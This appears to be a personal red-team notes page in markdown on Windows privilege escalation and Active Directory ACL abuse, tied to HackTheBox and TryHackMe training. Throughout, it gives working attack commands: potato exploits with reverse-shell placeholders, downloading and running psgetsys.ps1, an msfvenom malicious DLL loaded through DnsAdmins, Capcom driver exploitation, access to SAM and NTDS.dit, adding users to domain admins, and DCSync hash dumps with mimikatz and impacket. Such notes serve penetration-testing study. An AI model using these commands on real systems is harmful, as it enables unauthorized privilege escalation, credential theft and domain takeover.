

# Privileges

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[](https://tryhackme.com/room/windowsprivesc20)
[](https://tryhackme.com/room/adventofcyber2)
[](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

Users may have privileges for running some system tasks such as backups that may be used to escalate.

We can list your privileges with the command below, **but**, you won't see all of them unless you're in an admin prompt.

```shell!
PS> whoami /priv
PS> # your groups can have privileges too!
```

Privileges are [listed and explained here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
</div><div>

You can find way to exploit them on: 

* [Priv2Admin](https://github.com/gtworek/Priv2Admin) <small>(1.7k ⭐)</small>
* [PrivFu](https://github.com/daem0nc0re/PrivFu/) <small>(0.7k ⭐)</small>
* ...

Privileges may have been granted but not enabled. Some privileges can be enable using their exploit script, others can be enabled with builtin commands, and for most others, we can use:

* [Set-TokenPrivilege.ps1](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) <small>(2011 🪦)</small>
* [PoshPrivilege](https://github.com/proxb/PoshPrivilege/) with [Enable-Privilege.ps1](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) <small>(0.1k ⭐, 2015 🪦)</small> 
</div></div>

<hr class="sep-both">

## NormalPrompt2Admin

<div class="row row-cols-lg-2"><div>

We may use these as a normal user to escalate to admin.

#### SeImpersonate — steal access tokens

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
 
The most common approach is to use [potato](/cybersecurity/red-team/s4.privesc/windows/tools/potato.md) scripts. 

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````

You can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) <small>(1.7k ⭐, 2020 🪦)</small>:

````ps
PS> .\PrintSpoofer.exe -c "<reverse shell command>"
````

Additional references:

* [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) <small>(0.6k ⭐, 2020 🪦)</small> using [WinRM](/operating-systems/networking/protocols/winrm.md)
* [token-priv](https://github.com/hatRiot/token-priv/tree/master) <small>(0.7k ⭐, 2017 🪦)</small>
</div><div>
</div></div>

<hr class="sep-both">

## ElevatedPromptToAdmin

<div class="row row-cols-lg-2"><div>

We may use these from an elevated prompt to escalate to admin.

#### SeDebugPrivilege — Dump Process Memory

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

We can use methods shown in [Dump Credentials From LSASS Process](/operating-systems/windows/security/index.md#dump-credentials-from-lsass-process) to dump a process memory, which is often LSASS.

We can also steal and reuse the parent [access token](/operating-systems/windows/security/index.md#access-token) such as LSASS.

```ps
PS> wget "https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1" -O psgetsys.ps1
PS> .\psgetsys.ps1
PS> [MyProcess]::CreateProcessFromParent(<target_process_pid>,"<command_to_execute>","")
```

➡️ See also: [PrivFu/SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC).
</div><div>

#### SeTakeOwnershipPrivilege — Takeover Any File/Folder

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

We could access the SAM database or NTDS.dit...

```shell!
PS> takeown /f 'C:\poc.txt'
PS> icacls 'C:\poc.txt' /grant my_username:F
```
</div></div>

<hr class="sep-both">

## GroupToAdmin

<div class="row row-cols-lg-2"><div>

#### Backup Operators — Access any file

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants SeBackup and SeRestore privileges --*

We can use [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) <small>(0.2k ⭐, 2013 🪦)</small> to enable/disable the privilege and exploit it.

```shell!
PS> Import-Module .\SeBackupPrivilegeUtils.dll
PS> Import-Module .\SeBackupPrivilegeCmdLets.dll
PS> Get-SeBackupPrivilege # is enabled?
PS> Set-SeBackupPrivilege # enable it
```

We can use `robocopy` to perform a backup copy:

```shell!
PS> robocopy /B <source_folder> <dest_folder> <filename>
```

We could access the SAM database or NTDS.dit...

<br>

#### DnsAdmins — Configure The DNS Service

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants access to network DNS information --*

The DNS service runs as NT AUTHORITY\SYSTEM. When restarted, if `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is set and points to a DLL file, then it will be executed. We can generate a DLL using [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md).

```ps
$ msfvenom -p windows/x64/exec cmd='<some command>' -f dll -o malicious.dll
```
```ps
PS> Get-ADGroupMember -Identity DnsAdmins # as DNS admin
PS> dnscmd /config /serverlevelplugindll <absolute_path_to_dll>
```

You need to restart the DNS service. If you made changes to the groups of the current user, you need to log out and log back in.

<br>

#### Event Log Readers — Can Read Logs

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

You may find cleartext credentials within the logs.

```ps
PS> wevtutil qe Security /rd:true /f:text | Select-String "/user"
PS> wevtutil qe Security /rd:true /f:text /r:share_name /u:username /p:password | Select-String "/user"
```

You can also use `Get-WinEvent` but it requires special permissions.
</div><div>

#### Remote Access Groups

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

Users may be able to RDP to some host or using WinRM.

```ps
PS> # PowerView
PS> Get-NetLocalGroupMember -ComputerName DC01 -GroupName "Remote Desktop Users"
PS> Get-NetLocalGroupMember -ComputerName DC01 -GroupName "Remote Management Users"
```

<br>

#### Server Operators

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[](https://app.hackthebox.com/machines/Return)

*-- Grants many privileges as [listed here](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) --*

Members of the Server Operators group can administer domain controllers. They can start/stop/manage services, backup/restore files...

Refer to [Windows services](services.md) notes or [Backup Operators](#backup-operators--access-any-file) notes.

<br>

#### Print Operators

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[](https://app.hackthebox.com/machines/Return)

*-- Grants the SeLoadDriverPrivilege among other privileges --*

Members of the Print Operators can manage shares, delete printers, and before Windows 10 Version 1803, we would load a malicious driver using a user registry key. [Capcom](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) is a known vulnerable driver.

We could use [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) <small>(0.1k ⭐, 2018 🪦)</small> to enable the SeLoadDriverPrivilege and configure load the [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver.

```ps
PS> .\EoPLoadDriver.exe System\CurrentControlSet\Capcom .\Capcom.sys
```

We could do it manually by compiling [EnableSeLoadDriverPrivilege](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) <small>(1.0k ⭐, 2018 🪦)</small> and create registry keys pointint to [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys):

```ps
PS> .\EnableSeLoadDriverPrivilege.exe
<ok>
PS> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Path\to\Capcom.sys"
PS> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

<details class="details-n">
<summary>Compile EnableSeLoadDriverPrivilege.cpp on Windows</summary>

Add the following headers:

```cpp
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
<...>
```

You may use `cl` from Visual Studio or Windows SDK:

```shell!
PS> cl.exe /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
</details>

<details class="details-n">
<summary>Compile EnableSeLoadDriverPrivilege.cpp on Linux</summary>

Add the following headers:

```cpp
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
<...>
```

Install either `g++-mingw-w64-i686` or `g++-mingw-w64-x86-64` according to your architecture <small>($env:PROCESSOR_ARCHITECTURE)</small>. 
```shell!
$ sed -i -e 's/%\(.*\)ws/%\1ls/g' EnableSeLoadDriverPrivilege.cpp # %ls on Linux (even if target is Windows)
$ x86_64-w64-mingw32-g++ -DUNICODE -D_UNICODE -municode -mconsole -o EnableSeLoadDriverPrivilege.exe EnableSeLoadDriverPrivilege.cpp -lntdll -luser32 -ladvapi32 -static-libgcc -static-libstdc++ -O2
$ strip EnableSeLoadDriverPrivilege.exe
```
</details>

You can exploit the driver using [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) <small>(0.3k ⭐, 2022 🪦)</small>:

```shell!
PS> .\ExploitCapcom.exe
```

You can use [driverview](http://www.nirsoft.net/utils/driverview.html) to list loaded drivers.
</div></div>

<hr class="sep-both">

## Windows Dangerous ACEs

<div class="row row-cols-lg-2"><div>

#### Dangerous ACEs — Overview

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

In an Active Directory Network, it's common for users to be added to custom groups, and for custom ACEs to be defined for each group.

We may encounter many easy attack vectors:

* `GenericAll`: grant full control over an object
* `GenericWrite`: grant write access over an object
* `AddSelf`: add our user to a group
* `AllExtendedRights`: include ForceChangePassword, Add Members
* `AddMembers`: add arbitrary users to a group
* `ForceChangePassword`: reset someone else password
* `WriteOwner`: change the owner of an object
* `WriteDACL`: modify the DACL of an object
* `ReanimateTombstones`: ...
* `GroupMSAMembership`: [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader), [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
* `ReplicatingDirectoryChanges`, `[...]All`, and optionally `[...]InFilteredSet`: DCSync attack to dump hashes/passwords

We can use [PowerView](/cybersecurity/red-team/tools/utilities/windows/powersploit.md#powerview) to list *too many* possibly interesting ACEs:

```ps
PS> Find-InterestingDomainAcl
PS> $sid = Convert-NameToSid username
PS> Get-DomainObjectACL -Identity cn | ? {$_.SecurityIdentifier -eq $sid}
PS> Get-DomainObjectACL -ResolveGUIDs -Identity cn | ? {$_.SecurityIdentifier -eq $sid}
```

You should use [BloodHound](/cybersecurity/red-team/tools/utilities/windows/bloodhound.md) to find interesting/exploitable ACEs.

You can manually inspect objects in the MME interface, but it's quite a pain. Remember to enable Advanced Properties in View.

<br>

#### Dangerous ACEs — Exploitation

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

Many commands can only be run on a domain controller as a local administrator or the appropriate level of permissions.

```ps
PS> runas.exe /netonly /user:EXAMPLE.COM\username powershell.exe
```

Some commands require a password or a credential object:

```ps
PS> $pass = ConvertTo-SecureString -AsPlainText "old" -Force
PS> $Creds = New-Object System.Management.Automation.PSCredential('domain\username', $pass) 
```

* NET Commands

```ps
PS> net group "domain admins" <username> /add /domain # add to group
```

* Active Directory PowerShell Module Commands

```ps
PS> Set-ADAccountPassword -Identity username -OldPassword $pass -NewPassword $pass
```

* PowerView Commands

```ps
PS> Set-DomainUserPassword -Identity username -AccountPassword $pass -Credential $Cred -Verbose
PS> Add-DomainGroupMember -Identity "domain admins" -Members 'username' -Credential $Cred -Verbose
PS> Remove-DomainGroupMember -Identity "domain admins" -Members 'username' -Credential $Cred -Verbose # Remove
PS> Set-DomainObject -Credential $Cred -Identity username -SET @{serviceprincipalname='xxx/yyy'} -Verbose # fake SPN
PS> Set-DomainObject -Credential $Cred -Identity username -Clear serviceprincipalname -Verbose # Remove SPN
```
</div><div>

The image below is from HTB AD module and [publicly available](https://academy.hackthebox.com/storage/modules/143/ACL_attacks_graphic.png).



<br>

#### Dangerous ACEs — GenericWrite

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can add ourselves in another group such as `IT` below, that we may leverage to escalate through the domain.

```yaml!
AceType: AccessAllowed
ObjectDN: CN=IT,OU=[...]
ActiveDirectoryRights: [...], GenericWrite
```

We can add a fake SPN to a user account to perform a [kerberoasting](/operating-systems/cloud/active-directory/security/index.md#kerberoasting--privilege-escalation) attack. We can alternatively perform an [ASReproasting](/operating-systems/cloud/active-directory/security/index.md#as-rep-roasting-attack--privilege-escalation) attack.
<br>

#### Dangerous ACEs — GenericAll

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can perform multiple actions. Refer to [GenericWrite](#dangerous-aces--genericwrite) for a few.

If we have this access on a computer object, we can read its password if LAPS is enabled and gain local admin access.

<br>

#### Dangerous ACEs — ForceChangePassword

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We should ask if we are allowed to reset someone else's password to our client. We may do that to access a user which is in an interesting group which we should be able to exploit.

<br>

#### Dangerous ACEs — AddSelf

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can add ourselves to interesting groups?

<br>

#### Dangerous ACEs — ReplicatingDirectoryChanges

[](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You need at least `ReplicatingDirectoryChanges` and `[...]All` to perform a Domain Controller (DC) Synchronization (Sync) attack. It allows us to steal the Active Directory database.

```shell!
$ impacket-secretsdump -outputfile example_hashes -just-dc example.com/username:password@DCIP
mimikatz> lsadump::dcsync /user:example\username
mimikatz> lsadump::dcsync /domain:example.com /user:example\username
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

* To find what a GUID is associated with, either Google the GUID, or look inside `Extended-Rights`, as per HTB:

```ps
PS> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

* We can use active directory module and Get-ACL

````ps
PS> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
PS> foreach($line in [System.IO.File]::ReadLines("ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'domain\\username'}}
````
</div><div>
</div></div>